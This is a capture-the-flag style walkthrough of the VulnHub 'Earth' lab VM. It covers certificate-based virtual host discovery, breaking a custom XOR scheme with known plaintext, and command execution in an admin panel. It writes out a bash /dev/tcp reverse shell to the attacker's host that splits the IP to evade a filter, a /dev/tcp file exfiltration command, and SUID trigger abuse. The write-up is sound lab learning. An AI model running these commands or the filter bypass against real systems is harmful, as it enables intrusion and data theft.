









# VulnHub: Earth (The Planets series) — Writeup

**Difficulty:** Easy (leans toward the harder end of easy)
**Category:** Web application exploitation, custom crypto, SUID privilege escalation
**Attacker machine:** Kali Linux
**Target:** Earth (VulnHub, The Planets series)

> Solved independently, without referencing external walkthroughs.

---

## Table of Contents
- [Environment Setup](#environment-setup)
- [1. Reconnaissance](#1-reconnaissance)
- [2. Virtual Host Discovery](#2-virtual-host-discovery)
- [3. Information Disclosure via robots.txt](#3-information-disclosure-via-robotstxt)
- [4. Breaking the Custom XOR Encryption](#4-breaking-the-custom-xor-encryption)
- [5. Admin Panel Access & Initial Foothold](#5-admin-panel-access--initial-foothold)
- [6. Privilege Escalation via Custom SUID Binary](#6-privilege-escalation-via-custom-suid-binary)
- [7. Root](#7-root)
- [Lessons Learned](#lessons-learned)

---

## Environment Setup

- Kali Linux and the Earth VM were both attached to a VirtualBox **NAT Network** (`10.0.2.0/24`), allowing the two VMs to reach each other while still retaining outbound internet access on Kali.
- Kali's address: `10.0.2.15`

---

## 1. Reconnaissance

Host discovery via `arp-scan` identified three hosts on the subnet besides Kali itself:

```
sudo arp-scan --interface=eth0 10.0.2.0/24
```

```
10.0.2.1    (VirtualBox NAT Network gateway)
10.0.2.2    (VirtualBox internal helper)
10.0.2.4    (target — confirmed below)
```

A version scan against the two non-gateway addresses identified the real target:

```
nmap -sV 10.0.2.4
```

```
PORT    STATE SERVICE   VERSION
22/tcp  open  ssh       OpenSSH 8.6 (protocol 2.0)
80/tcp  open  http      Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
443/tcp open  ssl/http  Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
```



The `mod_wsgi`/`Python` combination strongly suggested a **Django** application running behind Apache — later confirmed by the `csrfmiddlewaretoken` field name found in a login form.

---

## 2. Virtual Host Discovery

Browsing directly to `https://10.0.2.4` returned Apache/Fedora's default placeholder page — a strong indicator that the real site is served via **name-based virtual hosting**, and requires the correct `Host` header / SNI value to be reached.

The target hostname was recovered from the **SSL certificate's Subject Alternative Name** field:

```
openssl s_client -connect 10.0.2.4:443 -servername 10.0.2.4 2>/dev/null \
  | openssl x509 -noout -text | grep -A5 "Subject Alternative Name"
```

```
Subject Alternative Name:
    DNS:earth.local, DNS:terratest.earth.local
```



Both hostnames were added to `/etc/hosts`:

```
10.0.2.4    earth.local
10.0.2.4    terratest.earth.local
```

Browsing to `https://earth.local` revealed an "Earth Secure Messaging Service" — a custom Django app allowing messages to be submitted and displaying a list of previously "encrypted" messages. Browsing to `https://terratest.earth.local` revealed a second copy of the app, apparently a staging/test instance (`terratest` = "terra" + "test").

---

## 3. Information Disclosure via robots.txt

`https://terratest.earth.local/robots.txt` disallowed a long list of file extensions (mostly irrelevant noise, since this is a Python/Django app, not PHP/ASP), but one entry stood out:

```
Disallow: /testingnotes.*
```

Requesting it directly (robots.txt only tells crawlers not to index a path — it doesn't restrict direct access):

```
curl -sk https://terratest.earth.local/testingnotes.txt
```

```
Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.
```



This single file leaked three critical pieces of information:
1. The messaging app uses **XOR encryption**.
2. A **known-plaintext file** (`testdata.txt`) exists on the server.
3. The **admin panel username** is `terra`.

---

## 4. Breaking the Custom XOR Encryption

### 4.1 Retrieving the known plaintext

```
curl -sk https://terratest.earth.local/testdata.txt -o testdata.txt
cat testdata.txt
```

```
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion
years ago. Within the first billion years of Earth's history, life appeared in the oceans and
began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and,
later, aerobic organisms. Some geological evidence indicates that life may have arisen as early
as 4.1 billion years ago.
```

### 4.2 Locating the matching ciphertext

The `earth.local` messaging page listed three "Previous Messages" as hex-encoded strings. Comparing byte lengths (`testdata.txt` = 404 bytes, including a trailing newline) against each hex string's length (hex character count ÷ 2) identified the third message (403 bytes) as the encrypted counterpart of `testdata.txt`.

### 4.3 Recovering the XOR key

Since XOR is reversible (`plaintext ⊕ ciphertext = key` when the key is repeated across the message), a small Python script recovered the keystream:

```python
with open('testdata.txt', 'rb') as f:
    plaintext = f.read().rstrip(b'\n')

with open('msg3.hex') as f:
    cipher_hex = f.read().strip()
ciphertext = bytes.fromhex(cipher_hex)

key_stream = bytes([p ^ c for p, c in zip(plaintext, ciphertext)])
print("Length:", len(key_stream))
print(key_stream)
```

```
python3 xor_recover.py
```

```
Length: 403
b'earthclimatechangebad4humansearthclimatechangebad4humans...' (repeating)
```



The repeating 29-byte key was recovered cleanly:

```
earthclimatechangebad4humans
```

---

## 5. Admin Panel Access & Initial Foothold

The `/admin` panel (a custom "Admin Command Tool", not Django's built-in admin) required a username/password. Combining the leaked username (`terra`) with the recovered XOR key as a **reused password** succeeded:

- **Username:** `terra`
- **Password:** `earthclimatechangebad4humans`



The panel exposes a raw CLI command execution feature ("run your CLI command on Earth Messaging Machine"). Confirmed with:

```
whoami
```
```
apache
```

### 5.1 Bypassing the IP address filter

A direct reverse shell payload using a literal IP address was blocked with **"Remote connections are forbidden."** Testing narrowed this down to a filter on the IP address pattern specifically (plain commands and even `/dev/tcp` syntax worked fine in isolation).

**Bypass:** split the IP address across shell variables so the literal string never appears in the submitted command:

```bash
A=10.0.2; B=.15; bash -c "bash -i >& /dev/tcp/$A$B/4444 0>&1"
```

With a listener running on Kali:

```
nc -lvnp 4444
```

the payload above landed a shell as `apache`:



---

## 6. Privilege Escalation via Custom SUID Binary

Standard SUID enumeration:

```
find / -perm -4000 -type f 2>/dev/null
```

Among the expected system binaries, one stood out immediately as non-standard:

```
/usr/bin/reset_root
```



```
ls -la /usr/bin/reset_root
-rwsr-xr-x. 1 root root 24552 Oct 12 2021 /usr/bin/reset_root
```

Running it produced:

```
CHECKING IF RESET TRIGGERS PRESENT...
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
```

Since neither `strace` nor `ltrace` were available on the target, the binary was exfiltrated to Kali over the existing reverse shell (raw `/dev/tcp` transfer to a netcat listener) and analyzed locally:

```bash
# On Kali:
nc -lvnp 8000 > reset_root_copy

# On target (via reverse shell):
cat /usr/bin/reset_root > /dev/tcp/10.0.2.15/8000
```

```
chmod +x reset_root_copy
strace ./reset_root_copy 2>&1 | grep access
```

```
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
access("/dev/shm/kHgTFI5G", F_OK)       = -1 ENOENT (No such file or directory)
access("/dev/shm/Zw7bV9U5", F_OK)       = -1 ENOENT (No such file or directory)
access("/tmp/kcM0Wewe", F_OK)           = -1 ENOENT (No such file or directory)
```

Run twice in a row to rule out per-execution randomization — the same three paths appeared both times, confirming they are **hardcoded** trigger files:



### 6.1 Satisfying the trigger condition

All three paths sit inside world-writable directories (`/dev/shm`, `/tmp`), so the unprivileged `apache` user could create them directly on the target:

```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
/usr/bin/reset_root
```

```
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
```

The binary — running as root due to the SUID bit — executed `echo 'root:Earth' | chpasswd` internally, resetting root's password.

---

## 7. Root

```bash
su root
# Password: Earth
```

```
cat /root/root_flag.txt
```

```
[root_flag_b0da9554d29db2117b02aa8b66ec492e]
```



---

## Lessons Learned

- **Certificates leak more than they should.** The SAN field on a self-signed cert directly disclosed a hidden virtual host — always check certificate details on HTTPS services using name-based vhosting.
- **robots.txt is a map of what an admin thinks is sensitive** — it doesn't restrict access, it just tells you where to look first.
- **Homegrown crypto is fragile.** A single leaked known-plaintext file was enough to fully break a "secure" custom XOR messaging scheme via a textbook known-plaintext attack.
- **Password/key reuse compounds small leaks into full compromises.** The same string served as both an encryption key and an admin password.
- **Input filters that pattern-match on literal strings (e.g., IP addresses) are trivially bypassed** by having the shell construct the string at runtime instead of submitting it literally.
- **SUID binaries are only as safe as their internal logic.** A privileged binary gated behind a "safety check" is only secure if that check can't be cheaply satisfied by the very user it's meant to restrict.

---

*Completed as part of independent home-lab practice. No external walkthroughs were referenced during solving.*
